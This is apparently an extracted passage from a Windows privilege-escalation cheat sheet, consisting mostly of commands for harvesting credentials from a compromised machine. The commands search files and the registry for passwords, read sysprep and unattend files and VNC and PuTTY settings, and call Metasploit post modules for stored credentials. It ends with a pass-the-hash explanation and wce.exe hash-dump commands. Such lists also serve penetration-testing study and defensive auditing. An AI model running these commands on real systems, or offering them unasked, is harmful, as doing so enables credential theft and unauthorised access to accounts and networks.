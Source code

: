 Find all passwords in all files.

$ findstr /spin "password" \*.\*

$ findstr /spin "password" \*.\*

These are common files to find them in. They might be base64-encoded. So look out for that.

$ type c:\sysprep.inf

type c:\sysprep\sysprep.xml

type c:\unattend.xml

type %WINDIR%\Panther\Unattend\Unattended.xml

type %WINDIR%\Panther\Unattended.xml

$ dir c:\*vnc.ini /s /b

dir c:\*ultravnc.ini /s /b

dir c:\ /s /b | findstr /si \*vnc.ini

Stuff in the registry:

$ reg query HKLM /f password /t REG\_SZ /s

reg query HKCU /f password /t REG\_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

reg query HKEY\_LOCAL\_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

Search for password in registry

$ reg query HKLM /f password /t REG\_SZ /s

reg query HKCU /f password /t REG\_SZ /s

Using meterpreter:

\> post/windows/gather/credentials/gpp

\> post/windows/gather/enum\_unattend

EoP 4: Pass the hash

Pass The Hash allows an attacker to authenticate to a remote target by using a valid combination of username and NTLM/LM hash rather than a cleartext password.

Windows hash format:

user:group:id:ntlmpassword::

You can do a hash dump in the affected system running:

wce32.exe -w

wce64.exe -w
